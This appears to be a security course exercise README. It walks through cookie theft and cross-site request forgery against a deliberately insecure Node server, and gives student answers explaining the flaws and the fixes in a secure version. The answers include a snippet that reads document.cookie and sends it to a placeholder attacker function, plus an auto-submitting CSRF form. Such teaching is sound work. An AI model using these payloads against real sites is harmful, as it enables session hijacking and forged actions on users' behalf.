 # Spoofing

This example demonstrates spoofind through two ways -- Stealing cookies programmatically and cross site request forgery (CSRF).

## Steps to reproduce the vulnerability

1. Install dependencies

    `$ npx install`

2. Start the **insecure.ts** server

    `npx ts-node insecure.ts`

3. Start the malicious server **mal.ts**

    `npx ts-node mal.ts`

4. Open __http://localhost:8000__ in a browser, type a name and Submit.

5. Open the __Application__ tab in the Browser's inspect pane. Find the __Cookies__ under __Storage__. You should see a __connect.sid__ cookie being set.

6. Open the HTML file __mal-steal-cookie.html__ file in the same browser (different tab). Open inspect and view the console.

7. Click the link in the HTML file. Do you see the cookie being stolen in the console?

8. Open the HTML file __mal-csrf.html__ file in the same browser (different tab). What do you see if the user has not logged out of **insecure.ts**? What do you see if the user has logged out? 


## For you to answer

1. Briefly explain the spoofing vulnerability in **insecure.ts**.
The application is vulnerable to cross-site request forgery attacks since there is no CSRF protection implemented. Also, the session cookie is set with httpOnly: false, this allows client-side JavaScript to access the session cookie through document.cookie.
2. Briefly explain different ways in which vulnerability can be exploited.
ways this could be exploited:
    (1)XSS could be used to steal the session cookie. ex:
        let stolenCookie = document.cookie;
        sendToAttackerServer(stolenCookie);
    (2)CSRF attack:
        <form id="hack" action="http://targetsite:8000/register" method="POST">
        <input type="hidden" name="name" value="Admin">
    </form>
    <script>document.getElementById('hack').submit();</script>
3. Briefly explain why **secure.ts** does not have the spoofing vulnerability in **insecure.ts**.
**secure.ts** have httpOnly: true, which prevents client-side JavaScript from accessing the session cookie through document.cookie. And sameSite: true helps prevent CSRF attacks by ensuring the cookie is only sent in same-site requests. Also, the session secret is passed as a command line argument rather than being hardcoded as "SOMESECRET".